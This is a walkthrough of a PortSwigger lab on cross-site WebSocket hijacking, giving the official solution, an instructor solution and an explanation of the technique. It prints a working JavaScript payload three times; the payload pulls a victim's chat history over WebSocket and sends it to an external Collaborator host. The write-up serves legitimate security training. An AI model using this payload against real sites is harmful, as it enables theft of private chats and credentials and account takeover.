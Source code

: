 
---

# 🧪 Lab: Cross-site WebSocket Hijacking

Lab URL: [https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

## High-Level Summary

**Objective:** Use a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history and gain access to their account.

**Key Techniques & Concepts:**

- **WebSockets:** Real-time communication protocol.
    
- **CSRF and WebSocket Misconfiguration:** No CSRF protection in the WebSocket handshake.
    
- **Exfiltration:** Capturing sensitive data using WebSocket message manipulation.
    

**What Makes This Vulnerable?**

- **No CSRF Protection:** WebSocket connections lack proper token verification.
    
- **SameSite=None Cookie Setting:** The `SameSite=None` cookie allows cross-origin requests, enabling WebSocket hijacking when combined with a missing CSRF token.
    

---

## PortSwigger Solution

1. **Interact with the Chat:**
    
    - Click "Live chat" and send a message.
        
    - Reload the page to confirm messages persist.
        
2. **Observe WebSocket Traffic:**
    
    - In **Burp Suite > Proxy > WebSockets History**, observe the "READY" command retrieving past messages.
        
3. **Identify WebSocket Vulnerability:**
    
    - Check **HTTP history** for the WebSocket handshake request.
        
    - Observe the lack of CSRF tokens in the WebSocket connection.
        
4. **Craft the Exploit:**
    
    - In **Burp Collaborator**, copy your unique payload URL.
    
    - Use the following exploit payload on the exploit server:
    
    
    ```
    <script>
      var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send('READY');
      };
      ws.onmessage = function(event) {
          fetch('https://YOUR-COLLABORATOR-ID', {
              method: 'POST',
              mode: 'no-cors',
              body: event.data
          });
      };
    </script>
    ```
    
5. **Exploit Execution:**
    
    - Replace `YOUR-LAB-ID` and `YOUR-COLLABORATOR-ID` with your actual WebSocket and Collaborator URLs.
        
    - Click **View Exploit** and send the payload.
        
6. **Retrieve Victim's Credentials:**
    
    - Poll for interactions in **Burp Collaborator**.
        
    - Verify the chat history exfiltration and locate the victim's credentials.
        
7. **Login as Victim:**
    
    - Use the exfiltrated credentials to log in to the victim's account.
        

✅ **Lab Completed Successfully**

---

## Instructor Solution

### Step 1: Identify the Chat Storage Mechanism

- Send a message in the live chat.
    
- Reload the page and confirm message persistence.
    
- Check the **Application > Cookies** tab and observe the cookie with `SameSite=None`.


### Step 2: Analyze WebSocket Traffic

- In **Burp Suite > Proxy > HTTP History**, locate the `/chat` WebSocket handshake with a `101 Switching Protocol` response.
    
- Switch to **WebSocket History** and observe messages including `PING`, `PONG`, and `READY`.


### Step 3: Understand the WebSocket Behavior

- The server sends chat history only after receiving a `READY` message. This message acts as a trigger for the server to release the chat history, making it critical for exploitation.
    

### Step 4: Craft the Payload

- Use the following payload in the exploit server:
    
    ```
    <script>
      var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send('READY');
      };
      ws.onmessage = function(event) {
          fetch('https://YOUR-COLLABORATOR-ID', {
              method: 'POST',
              mode: 'no-cors',
              body: event.data
          });
      };
    </script>
    ```
    

### Step 5: Deploy the Payload

- Send the payload using the **Exploit Server**.
    
- Confirm successful data exfiltration in **Burp Collaborator**.
    

✅ **Lab Completed Successfully**

---

## Explanation of Payloads and Techniques

### **WebSockets Overview:**

- WebSockets enable full-duplex communication between a client and a server.
    
- In this attack, the vulnerability lies in insufficient origin checking and missing CSRF protections.


### **Importance of SameSite=None:**

- The `SameSite=None` attribute allows cross-origin requests, which can lead to attacks when combined with a lack of CSRF protection.
    
- Cookies set with this attribute are accessible across different origins, making them vulnerable to hijacking.


### **Why the** `**READY**` **Message Matters:**

- The `READY` message sent by the WebSocket client triggers the server to send the chat history.
    
- Exploiting this behavior enables exfiltration of sensitive information from the victim's chat history.


### **How the Payload Works:**

1. **WebSocket Connection Creation:**
    
    - The script establishes a connection to the WebSocket server with the `new WebSocket()` function.
        
2. **Triggering the Chat History:**
    
    - Once connected, the script sends the `READY` message, triggering the server to send the chat history.
        
3. **Exfiltration of Data:**
    
    - When the server responds with the chat history, the `onmessage` event captures the data.
        
    - The data is sent to an external server using a `fetch()` request with `no-cors` mode to avoid preflight checks.
    

### **Key Indicators of Vulnerability:**

- No CSRF protection on WebSocket connections.
    
- `SameSite=None` allowing cross-origin resource sharing without additional protections.
    

---

## Tools and Commands

- **Burp Suite:** WebSockets History, Collaborator
    
- **Payload:**
    
    ```
    <script>
      var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send('READY');
      };
      ws.onmessage = function(event) {
          fetch('https://YOUR-COLLABORATOR-ID', {
              method: 'POST',
              mode: 'no-cors',
              body: event.data
          });
      };
    </script>
    ```
    
- **Resources:** [PortSwigger WebSockets Security Guide](https://portswigger.net/web-security/websockets)